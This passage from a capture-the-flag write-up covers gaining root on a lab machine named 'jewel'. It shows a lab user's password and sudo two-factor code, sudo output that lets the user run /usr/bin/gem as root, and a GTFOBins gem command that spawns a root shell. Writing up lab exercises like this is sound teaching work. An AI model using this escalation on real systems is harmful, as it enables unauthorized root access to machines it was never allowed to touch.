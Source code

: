 Then I got my code.

![07e26e88bd69b0fbd76657eaddb706f8.png](images/547f92c4d92f4d5aaf6929e0dd00d2b5.png)

Now if I run `sudo -l` again, I can enter the password and then the verification code from the authenticator app.


{% highlight text %}
[sudo] password for bill: spongebob

Verification code: 848801

Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem

{% endhighlight %}

A quick search [Gtfobins](https://gtfobins.github.io/gtfobins/gem/) and I got my payload to escalate to root. 

{% highlight sh %}
sudo /usr/bin/gem open -e "/bin/sh -c /bin/sh" rdoc
{% endhighlight %}

{% highlight sh %}
id
{% endhighlight %}
{% highlight text %}
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

<strong>Rooted ;)</strong>

